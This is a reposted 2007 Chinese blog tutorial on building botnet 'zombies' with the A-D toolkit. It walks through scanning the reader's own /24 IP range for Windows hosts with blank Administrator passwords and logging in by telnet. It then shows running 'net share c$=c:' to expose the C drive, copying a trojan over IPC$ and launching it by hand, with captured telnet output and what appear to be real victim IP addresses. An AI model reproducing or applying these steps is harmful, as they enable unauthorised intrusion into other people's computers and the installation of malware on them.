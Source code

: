```yaml
---
title: 啊D抓135肉鸡总结（转）
description: 现在最流行的抓鸡方法就是用啊D工具包抓本地肉鸡，有很多人都说用啊D工具包扫不到肉鸡，其实扫描的ip也是有技巧的，网上有很多抓135肉鸡的教程，可都讲的比较模糊，尤其扫的ip更是只字不提，这样新手以为随便找段ip就可以了，可是扫了半天什么也没有，都在纳闷，为什么别人可以扫到，我就扫不到？原因就是没找到本地的ip段。。。
date: 2007-07-21 22:12:41
category: 技术文章
tags: []
post_id: 80
alias: 80
ViewNums: 4873
---
```


现在最流行的抓鸡方法就是用啊D工具包抓本地肉鸡，有很多人都说用啊D 工具包扫不到肉鸡，其实扫描的ip也是有技巧的，网上有很多抓135肉鸡的教程，可都讲的比较模糊，尤其扫的ip更是只字不提，这样新手以为随便找段ip 就可以了，可是扫了半天什么也没有，都在纳闷，为什么别人可以扫到，我就扫不到？原因就是没找到本地的ip段。。。
  首先打开IE在地址栏输入[http://www.ip138.com](http://www.ip138.com/), 打开后刷新一下就是你外网的ip，也就是公网ip，例如你的ip是218.76.40.145，那你就在啊D工具的肉鸡查找的ip框里输入 218.76.40.1，后面的ip会自动显示为218.76.40.255这个我们不用管，下面点击设置--选猜测administrator只帐号并关闭。
现在大家扫一下看看，是不是可以扫到很多呢。我想应该可以扫到很多。

  扫到了以后就要telnet对方的主机了，具体步骤右击IP地址: 222.189.115.242 Administrator (空)    WinXP [5.1]  打开对方的telnet 并选择启动很快就可以登陆到对方的主机，输入用户名Administrator 密码为空直接回车就可以了，进入后先开启c盘做共享，命令是net share c$=c:,例如
*===============================================================
Welcome to Microsoft Telnet Server.
*===============================================================
C:Documents and SettingsAdministrator>net share c$=c:
c$ 共享成功。

C:Documents and SettingsAdministrator>
共享开启成功就可以种植你的木马了，右击IP地址: 222.189.115.242 Administrator (空)    WinXP [5.1]选择木马（IPC$）种植机把木马种植到c盘最后显示无效的句柄，
如：建立 \222.189.115.211IPC$ 管道.... OK!
复制文件到对方主机.... OK!
读取对方机子的时间.... 2006-08-20 15:55 OK!
在对方机子添加任务....
错误: 1702 绑定句柄无效。
--------------------------------------------------
我们必须手工运行。。先用dir查看一下如：

C: 的目录

2006-01-02 01:55  <DIR>      WINDOWS
2006-01-02 02:00  <DIR>      Documents and Settings
2006-01-02 02:12  <DIR>      Program Files
2006-01-11 02:58  <DIR>      Ghost
2006-01-12 02:58  <DIR>      boot
2006-05-17 09:42    42,377,996 Rav18_26_12.exe
2006-05-17 09:59  <DIR>      RAVBIN
2006-05-17 20:01  <DIR>      csc108
2006-06-06 21:41  <DIR>      Othello
2006-06-15 19:01          223 cmd.txt
2006-06-15 19:01          4 response.txt
2006-06-14 20:26        34,466 VETlog.dmp
2006-06-14 20:26        1,467 VETlog.txt
2006-06-18 11:20  <DIR>      Downloads
2006-06-18 11:51  <DIR>      QQFO
2006-07-03 10:24          376 NatTest16477656.txt
2006-07-03 10:24          378 NatTest16478888.txt
2006-08-20 15:55      319,319 2.exe
          8 个文件  42,734,229 字节
        10 个目录 5,185,863,680 可用字节

C:>
2006-08-20 15:55      319,319 2.exe这就是我上传的木马，在C:>后面输入2.exe回车木马就运行了如：
C:>2.exe

C:>


